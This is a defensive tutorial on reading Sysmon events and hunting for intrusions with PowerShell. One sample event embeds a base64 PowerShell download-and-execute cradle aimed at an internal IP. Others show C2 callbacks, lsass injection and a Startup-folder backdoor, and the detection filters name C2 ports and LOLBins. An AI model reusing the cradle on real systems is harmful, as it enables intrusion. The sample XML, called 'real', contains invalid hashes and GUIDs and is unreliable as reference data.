

# 📡 Full-Stack Lesson: Read Sysmon Event IDs

## 📊 Executive Summary

Sysinternals Sysmon is the single most valuable endpoint telemetry source for DFIR. Installed as a kernel-mode driver and Windows service, it logs process creations, network connections, file events, and more with rich XML metadata. Unlike the standard Security log (EID 4688), Sysmon EID 1 captures the process command line even without special GPO configuration, and provides additional fields like hash, integrity level, and parent process GUID for correlation. This lesson covers the six most critical Sysmon Event IDs: 1 (Process Creation), 3 (Network Connection), 7 (Image Loaded), 8 (CreateRemoteThread), 11 (File Create), and 22 (DNSEvent).



## 🏗️ Phase 1: Sysmon EID Reference Table

| EID | Event Type | What It Captures | Key XML Fields | Attacker Relevance |
|-----|-----------|-----------------|----------------|-------------------|
| **1** | Process Creation | Every process start with full command line, hash, parent GUID | `CommandLine`, `Hashes`, `ParentProcessGuid`, `IntegrityLevel` | All execution—malware, LOLBins, reconnaissance |
| **3** | Network Connection | Outbound/inbound TCP/UDP connections with process info | `DestinationIp`, `DestinationPort`, `Image`, `Protocol` | C2 callbacks, data exfiltration, beaconing |
| **7** | Image Loaded | DLL loaded into a process | `ImageLoaded`, `Image`, `Signed`, `Hashes` | DLL sideloading, process hollowing, reflective loading |
| **8** | CreateRemoteThread | Thread created in a remote process | `SourceImage`, `TargetImage`, `StartAddress`, `StartModule` | Process injection, code injection, malware unpacking |
| **11** | File Create | File created or overwritten on disk | `TargetFilename`, `CreationUtcTime`, `Image` | Dropper writing payloads, ransomware file creation |
| **22** | DNS Query | DNS resolution requests (requires Sysmon 13+) | `QueryName`, `QueryResults`, `ProcessGuid` | DNS tunneling, C2 domain lookups, DGA |

> 💡 **Key Insight**: Sysmon event collection requires a **configuration XML file** passed at install. Without a config, Sysmon captures nothing beyond its default (minimal) events. Always deploy with a well-tuned config like SwiftOnSecurity's `sysmon-config`.

## 🔍 Phase 2: Sysmon EID 1 — Process Creation

### What It Captures
Every process start on the system. Unlike Windows EID 4688, Sysmon EID 1 always includes the command line, SHA1 (and optionally SHA256) hash of the binary, the parent process GUID (for correlation), and the integrity level of the executing user.

### Real Event XML
```xml
<Event xmlns="http://schemas.microsoft.com/win/2004/08/events/event">
  <System>
    <Provider Name="Microsoft-Windows-Sysmon" Guid="{5770385f-c22a-43e0-bf4c-06f5698ffbd9}"/>
    <EventID>1</EventID>
    <Version>5</Version>
    <Level>4</Level>
    <Task>1</Task>
    <Opcode>0</Opcode>
    <Keywords>0x8000000000000000</Keywords>
    <TimeCreated SystemTime="2024-05-20T15:30:45.123456Z"/>
    <EventRecordID>123456</EventRecordID>
    <Correlation/>
    <Execution ProcessID="1234" ThreadID="5678"/>
    <Channel>Microsoft-Windows-Sysmon/Operational</Channel>
    <Computer>DC01.corp.local</Computer>
    <Security UserID="S-1-5-18"/>
  </System>
  <EventData>
    <Data Name="RuleName">-</Data>
    <Data Name="UtcTime">2024-05-20 15:30:45.121</Data>
    <Data Name="ProcessGuid">{AABBCCDD-1122-3344-5566-77889900AABB}</Data>
    <Data Name="ProcessId">6789</Data>
    <Data Name="Image">C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</Data>
    <Data Name="FileVersion">10.0.17763.1 (WinBuild.160101.0800)</Data>
    <Data Name="Description">Windows PowerShell</Data>
    <Data Name="Product">Microsoft® Windows® Operating System</Data>
    <Data Name="Company">Microsoft Corporation</Data>
    <Data Name="OriginalFileName">PowerShell.EXE</Data>
    <Data Name="CommandLine">powershell.exe -EncodedCommand SQBFAFgAIAAoAE4AZQB3AC0ATwBiAGoAZQBjAHQAIABOAGUAdAAuAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgAyADAAMgAnACkA</Data>
    <Data Name="CurrentDirectory">C:\Users\jdoe\</Data>
    <Data Name="User">CORP\jdoe</Data>
    <Data Name="LogonGuid">{DDEEFFGG-9988-7766-5544-33221100AABB}</Data>
    <Data Name="LogonId">0x123ABC</Data>
    <Data Name="TerminalSessionId">2</Data>
    <Data Name="IntegrityLevel">Medium</Data>
    <Data Name="Hashes">SHA1=7C7B6F6A72A735D6C1E8F1C1B5E2D3E4F5A6B7C8, MD5=E1F2G3H4I5J6K7L8M9N0O1P2Q3R4S5T6, SHA256=ABCDEF1234567890ABCDEF1234567890ABCDEF1234567890ABCDEF1234567890</Data>
    <Data Name="ParentProcessGuid">{BBDDCCAA-4433-2211-0099-887766554433}</Data>
    <Data Name="ParentProcessId">4321</Data>
    <Data Name="ParentImage">C:\Windows\System32\cmd.exe</Data>
    <Data Name="ParentCommandLine">cmd.exe /c powershell -exec bypass -enc <redacted></Data>
    <Data Name="ParentUser">CORP\jdoe</Data>
  </EventData>
</Event>
```

### Detection Examples

```powershell
# Detect encoded PowerShell commands (common initial access)
$encodedPS = Get-WinEvent -FilterHashtable @{
    LogName = 'Microsoft-Windows-Sysmon/Operational'
    ID      = 1
} | Where-Object {
    $_.Properties[14].Value -match '-EncodedCommand' -or
    $_.Properties[14].Value -match '-enc '
}

# Detect suspicious parent-child relationships (e.g., wscript spawning powershell)
$suspiciousParenting = Get-WinEvent -FilterHashtable @{
    LogName = 'Microsoft-Windows-Sysmon/Operational'
    ID      = 1
} | ForEach-Object {
    [PSCustomObject]@{
        Time        = $_.TimeCreated
        ParentImage = $_.Properties[20].Value
        ParentCmd   = $_.Properties[21].Value
        ChildImage  = $_.Properties[5].Value
        ChildCmd    = $_.Properties[14].Value
        User        = $_.Properties[15].Value
    }
} | Where-Object {
    $_.ParentImage -match 'wscript|mshta|regsvr32|rundll32|cscript' -and
    $_.ChildImage -match 'powershell|cmd'
}
```

## 🌐 Phase 3: Sysmon EID 3 — Network Connection

### What It Captures
Every outbound and inbound TCP/UDP connection, including the source and destination IP, port, protocol, and the process that initiated it. This is critical for identifying C2 beaconing and data exfiltration.

### Real Event XML
```xml
<EventData>
  <Data Name="RuleName">-</Data>
  <Data Name="UtcTime">2024-05-20 15:31:00.456</Data>
  <Data Name="ProcessGuid">{AABBCCDD-1122-3344-5566-77889900AABB}</Data>
  <Data Name="ProcessId">6789</Data>
  <Data Name="Image">C:\Users\jdoe\Downloads\payload.exe</Data>
  <Data Name="User">CORP\jdoe</Data>
  <Data Name="Protocol">tcp</Data>
  <Data Name="Initiated">true</Data>
  <Data Name="SourceIsIpv6">false</Data>
  <Data Name="SourceIp">10.0.1.105</Data>
  <Data Name="SourceHostname">DESKTOP-ABC123</Data>
  <Data Name="SourcePort">49876</Data>
  <Data Name="SourcePortName">-</Data>
  <Data Name="DestinationIp">198.51.100.50</Data>
  <Data Name="DestinationHostname">evil-c2.example.com</Data>
  <Data Name="DestinationPort">443</Data>
  <Data Name="DestinationPortName">https</Data>
</EventData>
```

### Detection Examples

```powershell
# Detect non-browser connections to known-bad ports
Get-WinEvent -FilterHashtable @{
    LogName = 'Microsoft-Windows-Sysmon/Operational'
    ID      = 3
} | ForEach-Object {
    $destPort = [int]$_.Properties[12].Value
    $image    = $_.Properties[4].Value
    $destIp   = $_.Properties[10].Value
    [PSCustomObject]@{
        Time    = $_.TimeCreated
        Image   = $image
        DestIp  = $destIp
        Port    = $destPort
        User    = $_.Properties[5].Value
    }
} | Where-Object {
    # Common C2 ports: 4444, 8080, 8443, 1337, 6666-6669, 9001
    $_.Port -in @(4444, 1337, 6666, 6667, 6668, 6669, 9001) -or
    # Non-browser process connecting to external
    ($_.Port -eq 443 -and $_.Image -notmatch 'chrome|firefox|msedge|iexplore|opera')
} | Format-Table -AutoSize
```

> ⚠️ **Note**: EID 3 generates high volume. Always combine with a Sysmon config rule to filter out known-good traffic (e.g., Windows Update, Microsoft Defender). Otherwise the Signal-to-Noise Ratio (SNR) makes analysis impractical.

## 📚 Phase 4: Sysmon EID 7 — Image Loaded

### What It Captures
Every DLL or executable image loaded into a process. This reveals DLL sideloading, reflective DLL injection, and anomalous module loading that is characteristic of malware unpacking.

### Real Event XML
```xml
<EventData>
  <Data Name="RuleName">-</Data>
  <Data Name="UtcTime">2024-05-20 15:31:05.789</Data>
  <Data Name="ProcessGuid">{AABBCCDD-1122-3344-5566-77889900AABB}</Data>
  <Data Name="ProcessId">6789</Data>
  <Data Name="Image">C:\Windows\System32\notepad.exe</Data>
  <Data Name="ImageLoaded">C:\Users\jdoe\AppData\Local\Temp\malicious.dll</Data>
  <Data Name="Hashes">SHA1=ABCDEF1234567890ABCDEF1234567890ABCDEF12</Data>
  <Data Name="Signed">false</Data>
  <Data Name="Signature">-</Data>
  <Data Name="SignatureStatus">-</Data>
</EventData>
```

### Detection Examples

```powershell
# Detect unsigned DLLs loaded into signed Microsoft processes
Get-WinEvent -FilterHashtable @{
    LogName = 'Microsoft-Windows-Sysmon/Operational'
    ID      = 7
} | ForEach-Object {
    [PSCustomObject]@{
        Time        = $_.TimeCreated
        Process     = $_.Properties[4].Value
        ImageLoaded = $_.Properties[5].Value
        Signed      = $_.Properties[7].Value
    }
} | Where-Object {
    $_.Process -match 'explorer|svchost|notepad|winword|excel' -and
    $_.Signed -eq 'false' -and
    $_.ImageLoaded -match 'AppData|Temp|Users'
}
```

> 💡 EID 7 is extremely high volume. Many analysis platforms disable it by default. Enable it selectively for critical processes (e.g., `lsass.exe`, `svchost.exe`, `winword.exe`).

## 🔫 Phase 5: Sysmon EID 8 — CreateRemoteThread

### What It Captures
The most direct indicator of process injection. When a thread is created in a remote process (e.g., `notepad.exe` creating a thread in `lsass.exe`), this event fires with the source and target image and the start address.

### Real Event XML
```xml
<EventData>
  <Data Name="RuleName">-</Data>
  <Data Name="UtcTime">2024-05-20 15:31:10.123</Data>
  <Data Name="SourceProcessGuid">{AABBCCDD-1122-3344-5566-77889900AABB}</Data>
  <Data Name="SourceProcessId">6789</Data>
  <Data Name="SourceImage">C:\Users\jdoe\Downloads\payload.exe</Data>
  <Data Name="TargetProcessGuid">{11223344-5566-7788-9900-AABBCCDDEEFF}</Data>
  <Data Name="TargetProcessId">1234</Data>
  <Data Name="TargetImage">C:\Windows\System32\lsass.exe</Data>
  <Data Name="NewThreadId">9876</Data>
  <Data Name="StartAddress">0x7FFD12340000</Data>
  <Data Name="StartModule">-</Data>
  <Data Name="StartFunction">-</Data>
</EventData>
```

### Detection Examples

```powershell
# Alert on any CreateRemoteThread targeting sensitive processes
$sensitiveProcs = @('lsass.exe', 'winlogon.exe', 'svchost.exe', 'explorer.exe',
                    'csrss.exe', 'services.exe', 'spoolsv.exe')

Get-WinEvent -FilterHashtable @{
    LogName = 'Microsoft-Windows-Sysmon/Operational'
    ID      = 8
} | ForEach-Object {
    [PSCustomObject]@{
        Time         = $_.TimeCreated
        SourceImage  = $_.Properties[3].Value
        TargetImage  = $_.Properties[6].Value
        StartAddress = $_.Properties[9].Value
    }
} | Where-Object {
    $_.TargetImage -in $sensitiveProcs -and
    $_.SourceImage -notmatch 'Microsoft|Windows|System32|Program Files'
}
```

## 📄 Phase 6: Sysmon EID 11 — File Create

### What It Captures
Any file created or overwritten on the system. This captures payloads dropped by malware, ransomware file extensions, script files written to startup folders, and artifacts created by post-exploitation tools.

### Real Event XML
```xml
<EventData>
  <Data Name="RuleName">-</Data>
  <Data Name="UtcTime">2024-05-20 15:31:15.456</Data>
  <Data Name="ProcessGuid">{AABBCCDD-1122-3344-5566-77889900AABB}</Data>
  <Data Name="ProcessId">6789</Data>
  <Data Name="Image">C:\Windows\System32\cmd.exe</Data>
  <Data Name="TargetFilename">C:\Users\jdoe\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\backdoor.vbs</Data>
  <Data Name="CreationUtcTime">2024-05-20 15:31:15.456</Data>
</EventData>
```

### Detection Examples

```powershell
# Detect executables and scripts written to suspicious locations
$suspiciousDirs = @('AppData\\Local\\Temp', 'AppData\\Roaming', 'Users\\Public',
                    'Windows\\Temp', 'ProgramData')

Get-WinEvent -FilterHashtable @{
    LogName = 'Microsoft-Windows-Sysmon/Operational'
    ID      = 11
} | ForEach-Object {
    $targetFile = $_.Properties[5].Value
    $image      = $_.Properties[4].Value
    [PSCustomObject]@{
        Time         = $_.TimeCreated
        Image        = $image
        TargetFile   = $targetFile
    }
} | Where-Object {
    $ext = [System.IO.Path]::GetExtension($_.TargetFile)
    $ext -match '\.exe$|\.dll$|\.ps1$|\.vbs$|\.js$|\.bat$|\.scr$' -and
    $_.TargetFile -match ($suspiciousDirs -join '|')
}
```

## 🌐 Phase 7: Sysmon EID 22 — DNSEvent

### What It Captures
DNS query and response pairs. This reveals C2 domain lookups, DGA-based domain generation, and DNS tunneling. Each event includes the query name, the resolved IPs, and the process that initiated the query.

### Real Event XML
```xml
<EventData>
  <Data Name="RuleName">-</Data>
  <Data Name="UtcTime">2024-05-20 15:31:20.789</Data>
  <Data Name="ProcessGuid">{AABBCCDD-1122-3344-5566-77889900AABB}</Data>
  <Data Name="ProcessId">6789</Data>
  <Data Name="QueryName">evil-c2.example.com</Data>
  <Data Name="QueryStatus">0</Data>
  <Data Name="QueryResults">198.51.100.50:53</Data>
  <Data Name="Image">C:\Users\jdoe\Downloads\payload.exe</Data>
</EventData>
```

### Detection Examples

```powershell
# Detect anomalous DNS queries (non-browser processes looking up external domains)
$browserPaths = @('chrome.exe', 'firefox.exe', 'msedge.exe', 'iexplore.exe', 'opera.exe')

Get-WinEvent -FilterHashtable @{
    LogName = 'Microsoft-Windows-Sysmon/Operational'
    ID      = 22
} | ForEach-Object {
    $image     = $_.Properties[7].Value
    $queryName = $_.Properties[4].Value
    $results   = $_.Properties[6].Value
    
    [PSCustomObject]@{
        Time      = $_.TimeCreated
        Image     = $image
        Query     = $queryName
        Results   = $results
    }
} | Where-Object {
    $procName = [System.IO.Path]::GetFileName($_.Image)
    $procName -notin $browserPaths -and
    $_.Query -notmatch '\.local$|\.corp$|\.internal$|ocsp\.|crl\.|msedge\.net|windowsupdate' -and
    $_.Query -match '\.(com|net|org|xyz|top|club|info)$'
}
```

### 📦 Complete Sysmon Investigation Script
# Invoke-SysmonTriage.ps1
# Collects and correlates Sysmon events for triage

param(
    [string]$OutputDir = ".\sysmon_triage",
    [int]$HoursBack = 24
)

$startTime = (Get-Date).AddHours(-$HoursBack)
New-Item -ItemType Directory -Path $OutputDir -Force | Out-Null

function Get-SysmonEvent($id) {
    Get-WinEvent -FilterHashtable @{
        LogName   = 'Microsoft-Windows-Sysmon/Operational'
        ID        = $id
        StartTime = $startTime
    } -ErrorAction SilentlyContinue
}

# EID 1 — Process Creation (look for encoded commands, LOLBins)
$procEvents = Get-SysmonEvent 1
$encoded = $procEvents | Where-Object { $_.Properties[14].Value -match '-enc|FromBase64|IEX' }
$encoded | Export-Csv "$OutputDir\eid1_encoded_commands.csv" -NoTypeInformation

# EID 3 — Network Connections (filter for suspicious dest ports)
$netEvents = Get-SysmonEvent 3
$suspiciousNet = $netEvents | ForEach-Object {
    if ($_.Properties[12].Value -in @(4444,1337,6666,6667,6668,6669,9001,8443)) { $_ }
} | Export-Csv "$OutputDir\eid3_suspicious_connections.csv" -NoTypeInformation

# EID 8 — Remote Thread Injection (high-confidence indicator)
$threadEvents = Get-SysmonEvent 8
$threadEvents | Export-Csv "$OutputDir\eid8_remote_thread.csv" -NoTypeInformation

# EID 22 — DNS Queries (non-browser lookups)
$dnsEvents = Get-SysmonEvent 22
$nonBrowserDns = $dnsEvents | Where-Object {
    $proc = [System.IO.Path]::GetFileName($_.Properties[7].Value)
    $proc -notmatch 'chrome|firefox|msedge|iexplore|opera'
}
$nonBrowserDns | Export-Csv "$OutputDir\eid22_nonbrowser_dns.csv" -NoTypeInformation

Write-Host "[+] Sysmon triage complete. Output: $OutputDir"


## 🧠 Phase 8: Correlation Across Sysmon EIDs

### Building an Attack Chain

Sysmon's `ProcessGuid` and `ParentProcessGuid` fields enable cross-EID correlation:

```powershell
# Track a process through multiple Sysmon EIDs
$targetGuid = '{AABBCCDD-1122-3344-5566-77889900AABB}'

# Find all events for this process
$allEvents = Get-WinEvent -FilterHashtable @{
    LogName   = 'Microsoft-Windows-Sysmon/Operational'
    StartTime = (Get-Date).AddHours(-48)
} | Where-Object {
    $xml = [xml]$_.ToXml()
    $guid = ($xml.Event.EventData.Data | Where-Object { $_.Name -match 'ProcessGuid|SourceProcessGuid|TargetProcessGuid' }).'#text'
    $guid -eq $targetGuid
}

$allEvents | ForEach-Object {
    $xml = [xml]$_.ToXml()
    [PSCustomObject]@{
        Time      = $_.TimeCreated
        EID       = $_.Id
        Details   = ($xml.Event.EventData.Data.'#text') -join ' | '
    }
} | Sort-Object Time | Format-Table -AutoSize -Wrap
```

## 📝 Phase 9: Best Practices & Sysmon Config

| Practice | Why |
|----------|-----|
| 🏗️ **Deploy a tested config** | Use SwiftOnSecurity's `sysmon-config.xml` as a baseline; customize for your environment |
| 🔇 **Filter known-good** | Exclude Windows Update, Defender, corporate AV to reduce noise on EID 3 and EID 7 |
| ⏳ **Retain 90+ days** | Sysmon logs are compact (~1GB/month on a busy workstation). Retain for historical hunting |
| 🔗 **Correlate with ProcessGuid** | Always use `ProcessGuid` (not PID which is recycled) to track processes across events |
| 📊 **Forward to SIEM** | Sysmon events are useless if they stay local. Forward via WinRM, NXLog, or WEF |
| 🧪 **Test before deploying** | Deploy to a test group first; a bad Sysmon config can DOS a system by generating excessive events |

## 🎯 Conclusion

Sysmon EIDs provide the richest endpoint telemetry available to a DFIR analyst. EID 1 and EID 3 form the baseline of any investigation (what ran and where did it connect), while EID 8 (CreateRemoteThread) is a near-definitive indicator of process injection. EID 22 (DNS) fills the gap for C2 domains that resolve dynamically. By correlating across these six EIDs using the shared `ProcessGuid`, you can reconstruct the full attack chain—initial execution → C2 beaconing → lateral movement → persistence—with high confidence and minimal noise.
